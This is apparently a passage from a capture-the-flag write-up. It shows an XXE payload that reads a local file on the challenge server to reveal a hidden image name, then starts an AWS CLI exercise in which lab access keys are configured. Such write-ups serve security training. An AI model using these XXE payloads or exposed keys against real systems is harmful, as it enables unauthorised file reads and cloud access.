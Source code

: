 ```json
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

Which insinuates that the princess wants to "obtain" the silver ring (`img1`). We can alter the XXE payload to alter `reqType` (due to the capitalized word in the last message) and force the princess to grab the silver ring with a static `imgDrop`.

This was my final payload:
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
 
<root>
<imgDrop>img1</imgDrop>
<who>princess</who>
<reqType>&xxe;</who>
</root>
```
Response:
```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```
The answer is: `goldring-morethansupertopsecret76394734.png`


# Recover the Cloud Ring
## AWS CLI Intro
“Try out some basic AWS command line skills in this terminal. Talk to Jill Underpole in the Cloud Ring for hints.”

```
elf@9a8b80389488:~$ aws help


elf@9a8b80389488:~$ aws configure
AWS Access Key ID [None]: AKQAAYRKO7A5Q5XUY2IY 
AWS Secret Access Key [None]: qzTscgNdcdwIo/soPKPoJn9sBrl5eMQQL19iO5uf
Default region name [None]: us-east-1
Default output format [None]: table


elf@9a8b80389488:~$ aws sts get-caller-identity
{
    "UserId": "AKQAAYRKO7A5Q5XUY2IY",
    "Account": "602143214321",
    "Arn": "arn:aws:iam::602143214321:user/elf_helpdesk"
}
```